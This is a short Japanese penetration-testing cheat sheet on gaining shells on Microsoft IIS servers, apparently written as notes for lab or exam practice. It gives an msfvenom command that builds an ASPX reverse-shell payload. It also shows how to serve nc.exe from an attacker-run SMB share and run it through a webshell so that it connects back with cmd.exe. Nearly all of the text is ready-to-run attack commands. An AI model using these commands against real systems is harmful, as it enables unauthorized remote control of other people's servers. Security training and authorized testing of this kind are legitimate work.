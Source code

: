 # IIS

[toc]

FTPで共有されているディレクトリを直接読むことができる場合がある。

ASP、ASPXが動作しやすい

ホームディレクトリ

```
C:\inetpub\wwwroot\
```

### webshell

[webshell_asp](./../webshell.md/#ASP)

### リバースシェル(aspx)

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.241 LPORT=4444 -f aspx > reverse.aspx
```



#### smbserver + webshell (nc.exeやaspxのリバースシェルがうまく実行しない場合）

```cmd
# kali
cp /usr/share/doc/python3-impacket/examples/smbserver.py ./
sudo /etc/init.d/smbd stop 
mkdir share			# 共有ディレクトリを作成
cp nc.exe share/	# 実行したいexeファイルをshare配下に移動
sudo python smbserver.py share smb	#smbサーバーを起動
```

```cmd
# webshellで実行
\\192.168.45.241\share\nc.exe -e cmd.exe 192.168.45.241 4444
\\<kaliのip>\share\nc.exe -e cmd.exe <kaliのip> 4444
```

